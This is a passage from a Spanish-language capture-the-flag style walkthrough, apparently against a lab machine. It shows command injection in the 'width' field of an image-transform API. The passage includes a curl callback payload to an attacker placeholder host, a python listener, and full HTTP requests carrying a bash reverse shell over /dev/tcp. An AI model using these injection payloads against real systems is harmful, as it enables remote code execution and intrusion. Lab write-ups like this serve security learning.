 Si probamos en cualquiera de los parametros de la `x` para abajo poniendo este `payload`:

```
"; curl http://<IP_ATTACKER>/"
```

Para intentar concatenar cualquier comando que se este ejecutando por detras y despues que nos llegue una peticion a ver si se esta ejecutando bien quedando la peticion de esta forma:

```
POST /apply_visual_transform HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.88:8000/
Content-Type: application/json
Content-Length: 146
Origin: http://10.10.11.88:8000
Connection: keep-alive
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aODObA.AyvVMpCmpZu7T2rEhILFmICqF-Q
Priority: u=0

{"imageId":"9bb59b7d-ed61-4245-8590-515a79d2bc7e","transformType":"crop","params":{"x":1,"y":0,"width":"; curl http://<IP_ATTACKER>/","height":567}}
```

Abriremos un servidor de `python3`.

```shell
python3 -m http.server 80
```

Ahora si enviamos la peticion nos llegara a nuestro servidor esto:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.88 - - [04/Oct/2025 03:45:49] code 404, message File not found
```

Veremos que funciona, por lo que vamos a probar a realizar una `reverse shell` de esta forma:

```
POST /apply_visual_transform HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.88:8000/
Content-Type: application/json
Content-Length: 146
Origin: http://10.10.11.88:8000
Connection: keep-alive
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aODObA.AyvVMpCmpZu7T2rEhILFmICqF-Q
Priority: u=0

{"imageId":"9bb59b7d-ed61-4245-8590-515a79d2bc7e","transformType":"crop","params":{"x":1,"y":0,"width":"; /bin/bash -c \"/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\";","height":567}}
```
